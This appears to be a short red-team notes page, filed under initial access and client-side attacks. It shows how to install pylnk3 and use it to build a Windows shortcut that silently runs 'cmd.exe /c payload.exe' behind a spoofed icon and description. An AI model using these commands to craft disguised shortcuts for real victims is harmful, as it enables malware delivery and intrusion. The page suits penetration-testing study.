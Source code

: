 # Unix Shell

## 01 - Setup

### 1.1 - Package Manager

```
$ yay -S python-pylnk3
```

### 1.2 - Universal Install

```
$ git clone https://github.com/strayge/pylnk.git
```

TODO: Fill in the information

## 02 - Usage

```
$ pylnk3 c C:\Windows\System32\cmd.exe payload.lnk -a "/c payload.exe" -ii <index_number> -m Minimized -d "<description>"
```

```
$ pylnk3 c C:\Windows\System32\cmd.exe payload.lnk -a "/c payload.exe" -i /path/to/file.ext -m Minimized -d "<description>"
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Windows/Manual/Living off the Land]]

### Source Repositories

- [strayge: pylnk](https://github.com/strayge/pylnk)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)